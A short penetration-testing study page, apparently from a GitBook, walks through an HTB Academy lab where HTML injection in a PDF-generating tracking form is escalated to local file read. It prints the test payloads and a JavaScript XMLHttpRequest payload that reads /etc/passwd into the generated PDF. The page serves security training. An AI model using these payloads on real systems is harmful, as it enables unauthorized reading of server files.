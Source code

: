 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SSRF to LFI

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

The site `tracking.inlanefreight.local` accepts a tracking number and generates a PDF document. The tracking number gets reflected in the PDF (Figure 1).

<figure><img src="../../../.gitbook/assets/html_injection.png" alt=""><figcaption><p>Figure 1: The input gets reflected within the generated PDF.</p></figcaption></figure>

The input field takes any input, not just numbers, and accepts both HTML and JS (Figure 2).

{% tabs %}
{% tab title="HTML Payload" %}
```html
<h1>test</h1>
```
{% endtab %}

{% tab title="JS Payload" %}
```javascript
<script>document.write('TESTING THIS')</script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/html_injection_test.png" alt=""><figcaption><p>Figure 2: Testing HTML injection.</p></figcaption></figure>

Follow [this](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) and [this](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) posts that use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), we can try to achieve LFI (Figure 3).

{% tabs %}
{% tab title="Payload" %}
```javascript
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/html_injection_to_lfi.png" alt=""><figcaption><p>Figure 3: HTML Injection to LFI.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="SSRF via PDF HTML Injection" %}
{% embed url="https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90" %}
{% endtab %}

{% tab title="SSRF to LFI via PDF HTML Injection" %}
{% embed url="https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f" %}
{% endtab %}
{% endtabs %}

